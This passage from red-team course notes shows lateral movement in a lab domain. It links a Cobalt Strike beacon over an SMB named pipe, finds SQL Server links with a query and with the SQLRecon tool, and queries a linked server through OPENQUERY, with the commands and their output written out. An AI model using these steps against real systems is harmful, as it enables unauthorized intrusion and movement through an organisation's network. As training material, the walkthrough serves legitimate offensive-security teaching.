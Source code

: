 **You can then link to the Beacon:**

```
beacon> link sql-2.dev.cyberbotic.io TSVCPIPE-ae2b7dc0-4ebe-4975-b8a0-06e990a41337
[+] established link to child beacon: 10.10.122.25
```

![](https://files.cdn.thinkific.com/file_uploads/584845/images/028/123/c7d/mssqlsvc-beacon.png)

{% hint style="info" %}
**What payload would you use if port 445 was closed?**&#x20;

**Experiment with using the pivot listener here instead of SMB.**
{% endhint %}

## MS SQL Lateral Movement

SQL Servers have a concept called "links".

These links allows a database instance to access data from an external source.

MS SQL supports multiple sources, including other MS SQL servers. These can also be practically anywhere — include other domains, forests or in the cloud.

**Discover any links that the current instance has:**

```
SELECT srvname, srvproduct, rpcout FROM master..sysservers;
```

<figure><img src="../.gitbook/assets/image (5) (1).png" alt=""><figcaption></figcaption></figure>

**This shows that SQL-2 has a link to SQL-1.  The SQLRecon `links` module could also be used:**

```
beacon> execute-assembly C:\Tools\SQLRecon\SQLRecon\bin\Release\SQLRecon.exe /a:wintoken /h:sql-2.dev.cyberbotic.io,1433 /m:links

[*] Additional SQL links on sql-2.dev.cyberbotic.io,1433
name | product | provider | data_source | 
------------------------------------------
SQL-1.CYBERBOTIC.IO | SQL Server | SQLNCLI | SQL-1.CYBERBOTIC.IO |
```

**We can send SQL queries to linked servers using&#x20;**_**OpenQuery**_**:**

```
SELECT * FROM OPENQUERY("sql-1.cyberbotic.io", 'select @@servername');
```
